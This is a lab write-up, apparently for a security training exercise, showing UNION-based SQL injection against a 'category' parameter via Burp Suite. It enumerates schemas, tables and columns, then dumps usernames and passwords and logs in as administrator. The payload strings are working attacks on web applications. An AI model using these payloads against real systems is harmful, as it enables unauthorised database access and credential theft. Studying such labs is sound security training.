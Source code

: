```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 5
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/17389135-4418-4ea2-ae39-a2090b538269)

Let's filter for `Food & Drink`.

![2](https://github.com/Knign/Write-ups/assets/110326359/3acbeb53-dddc-4da4-91f5-2bc59f501bbe)

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

![3](https://github.com/Knign/Write-ups/assets/110326359/9a966bb0-fc2d-4593-8ccb-664f1c73ba73)

Let's forward the request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test'--
```

![4](https://github.com/Knign/Write-ups/assets/110326359/d529e09b-f739-4dfb-8914-6262cc7eb519)

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT 'test','test'--
```

![5](https://github.com/Knign/Write-ups/assets/110326359/702a663e-5d2c-4567-a099-603df0319b18)

Now that we know the current query has two columns, we can start enumerating the databases.

```
' UNION SELECT schema_name, NULL FROM information_schema.schemata--
```

![20](https://github.com/Knign/Write-ups/assets/110326359/26eee849-a691-494f-a1cc-009f5efcaed9)

Now let's enumerate the tables present in the `public` database by setting the `category` parameter to:

```
' UNION SELECT table_name, NULL FROM information_schema.tables-- WHERE table_schema='public'--
```

![21](https://github.com/Knign/Write-ups/assets/110326359/091474f0-7311-44ba-8c9f-167342b6df20)

Next, we need to find the columns present in the `users_bfbtjz` table.

We can do that by setting the `category` parameter to the following:

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_bfbtjz'--
```

![22](https://github.com/Knign/Write-ups/assets/110326359/c7dde1ee-5cea-486e-a36a-93ab75ba18c2)

We can now retrieve the usernames and password from the `username_ylkdae` and `password_sdbuqk` columns respectively.

For that we have to set the `category` parameter to the following:

```
' UNION SELECT username_ylkdae, password_sdbuqk FROM users_bfbtjz--
```

![23](https://github.com/Knign/Write-ups/assets/110326359/b0ac680b-6b39-409c-873e-8a87504d6d10)

We can now login as the administrator using the following credentials:


| Username | Password |
| -------- | -------- |
| administrator         | x3lp8yt4oyymkeu9bppm         |

![9](https://github.com/Knign/Write-ups/assets/110326359/6381a1db-5933-4003-a0fd-2b0d2c04a375)

We have solved the lab.

![10](https://github.com/Knign/Write-ups/assets/110326359/c37e5f54-5ea6-477b-9ed7-6ec71fabeb17)
